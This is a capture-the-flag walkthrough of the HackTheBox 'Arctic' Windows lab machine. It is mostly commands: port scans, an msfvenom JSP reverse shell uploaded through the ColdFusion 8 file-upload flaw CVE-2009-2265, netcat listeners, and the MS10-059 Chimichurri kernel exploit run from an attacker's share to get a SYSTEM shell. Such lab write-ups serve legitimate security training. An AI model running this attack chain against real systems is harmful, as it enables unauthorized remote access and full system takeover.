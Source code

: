 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Root Method**: MS10-059 exploit via Chimichurri

https://www.youtube.com/watch?v=Gfus5di2EF4

---

## 🔍 Reconnaissance

### 🔎 Full TCP Scan
```bash
nmap -p- --min-rate 10000 -oA nmap-alltcp 10.10.10.11
```

### 🔎 Version & Script Scan
```bash
nmap -sC -sV -p 135,8500,49154 -oA nmap-service 10.10.10.11
```

---

## 🌐 [Web Enumeration](HTTP)

### 🌐 Port 8500 Analysis
```bash
curl http://10.10.10.11:8500/
# or
nc 10.10.10.11 8500
```

Revealed ColdFusion 8 interface:
- `/CFIDE/administrator/enter.cfm` → Login panel
- `/userfiles/file/` → Web root accessible

---

## ⚔️ Exploitation (Initial Foothold)

### Method 1: CVE-2009-2265 – Unauthenticated File Upload

#### 🧬 Generate JSP Reverse Shell
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f raw > shell.jsp
```

#### 🗂 Upload Shell via ColdFusion vuln
```bash
cp shell.jsp shell.txt
curl -X POST -F "newfile=@shell.txt;type=application/x-java-archive;filename=shell.txt" \
"http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/shell.jsp%00"
```

#### 🔁 Trigger Reverse Shell
```bash
curl http://10.10.10.11:8500/userfiles/file/shell.jsp
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🧪 Privilege Escalation

### 📋 Check System Info
```bash
systeminfo
```

**No hotfixes installed** — prime for kernel exploits.

### 🔎 Enumerate with Windows Exploit Suggester
```bash
# On Kali
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python3 windows-exploit-suggester.py --update

# Save output from systeminfo
python3 windows-exploit-suggester.py --database 2020-XX-XX-mssb.xls --systeminfo sysinfo.txt
```

**Selected**: [MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

### 📤 Transfer Exploit Binary
```bash


# On Arctic shell
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
```

### 💣 Execute Exploit
```bash
Chimichurri.exe 10.10.14.14 443
```

### 🧲 Netcat Listener
```bash
rlwrap nc -nvlp 443
```

---

## 🏁 Flags

### 🧑‍💻 User
```bash
type C:\Users\tolis\Desktop\user.txt
```

### 👑 Root
```bash
type C:\Users\Administrator\Desktop\root.txt
```